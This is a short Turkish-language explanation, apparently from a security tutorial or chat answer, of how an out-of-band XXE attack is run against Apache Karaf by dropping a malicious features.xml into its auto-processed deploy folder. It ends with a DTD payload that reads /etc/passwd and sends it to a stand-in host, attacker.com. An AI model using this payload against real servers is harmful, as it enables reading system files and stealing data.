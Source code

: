 ####  **Apache Karaf ve `deploy` Klasörü**

Apache Karaf, bir **OSGi tabanlı uygulama sunucusudur**. XML dosyalarını otomatik olarak işleyebileceği özel bir klasörü vardır:

##### 📂 `deploy/` Klasörü Nedir?

- Apache Karaf kurulduğunda, `deploy/` adında bir klasörle birlikte gelir.
- Bu klasöre **XML, JAR, KAR** gibi dosyaları attığında Karaf onları **otomatik olarak işler veya yükler.**
- Özellikle `features.xml` gibi dosyalar burada işlendiğinde içlerindeki **DOCTYPE** tanımlamaları da parse edilir. Yani **XXE tetiklenebilir**.

#####  Bu Saldırının Amacı

Senin örneğinde, **XXE içeren bir `features.xml` dosyası** hazırlanıyor.

##### Adımlar:

1. **Bu XML payload'ını `.xml` uzantısıyla kaydet**  
    Örn: `evil_features.xml`

2. **Apache Karaf sunucusunda `deploy/` klasörüne bu dosyayı kopyala**  
    Örn:

    ```bash
    cp evil_features.xml /opt/karaf/deploy/
    ```
    
    (dosya adı önemli değil, sadece `.xml` uzantısı olsun)
    
3. **Karaf bunu otomatik olarak işler**, içindeki `<!DOCTYPE ...>` kısmı çalışır.

4. Eğer `<!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">` gibi bir satır varsa, Karaf **senin kontrolündeki sunucudan DTD dosyasını çeker**.

5. Eğer bu DTD içinde bir **veri sızdırma mekanizması** varsa (örneğin `file:///etc/passwd` okuma + HTTP ile gönderme), o tetiklenir.

##### Örnek Senaryo (özetle)

- **Saldırgan**: Evil XML hazırlayıp `karafHost:/opt/karaf/deploy/` klasörüne gönderir.
- **Karaf**: Dosyayı otomatik işler.
- **XXE**: `<!ENTITY>` tanımı çalışır ve dış sunucuya istek gider (OOB).
- **Saldırgan**: Dış isteği alır ve sistemin içeriden istek attığını doğrular veya veri alır.

#####  Not: Gerçek saldırıda

- Canarytokens gibi hizmetlerle istek geldi mi diye bakılır.

- Gerçek veri sızdırmak için:

    ```dtd
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
    %all;
    ```
